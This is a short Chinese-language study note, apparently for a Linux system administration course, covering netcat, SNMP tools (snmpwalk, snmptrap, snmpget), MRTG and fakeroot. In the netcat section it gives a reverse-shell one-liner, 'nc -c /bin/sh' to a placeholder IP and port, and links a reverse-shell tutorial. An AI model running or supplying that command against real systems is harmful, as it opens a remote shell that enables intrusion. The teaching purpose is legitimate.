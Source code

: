 可參考[常見用法](https://blog.gtwang.org/linux/linux-utility-netcat-examples/)

- 測試 TCP port 有沒有開
`$ nc -v 192.168.0.175 9527`

- 打出 UDP 封包
`$ echo -n "I ❤ LSA!!" | nc -u -w1 192.168.1.8 9527`

- 聽 UDP 封包
`$ nc -lu localhost 9527`

- 接 stdin stdout
[nc hook](https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/)
`nc -c /bin/sh <your IP> <any unfiltered port>
`

###### 用nc來接stdin 
- server1 : `nc -l 1234 (port號)`
- server2 : `nc server1_ip 1234`
[name=yiyu]

## SNMP 簡易網路管理協定

### 你得先知道

- MIB: 描述被管理設備上的參數的樹狀數據結構，有標準預設代號，各間廠商也可以定義私人數值，需要向相關單位申請
- community: 通關密碼

### snmpwalk
主動去問設備

`$ snmpwalk -v2c -c public -O e 127.0.0.1`

- -v 爲使用版本，上述例子是使用 2c 版本
- -c 是指 community，也就是你得告訴設備通關密碼，它才會給你資訊

### snmptrap
叫設備主動告訴你，通常是緊急狀況

`$ snmptrap -m ./sample- trap.mib  -v 2c -c public 16.157.76.227:1622`

### snmpget
取得自己ip位址上的某一特定OID的VALUE和NAME

`$ snmpget v1 -c public <device IP> OID`
### MRTG

[link](http://163.22.17.70/mrtg/)

## fakeroot
模擬 root 權限，通常用來製作安裝包，將裏面文件擁有者設定爲 root
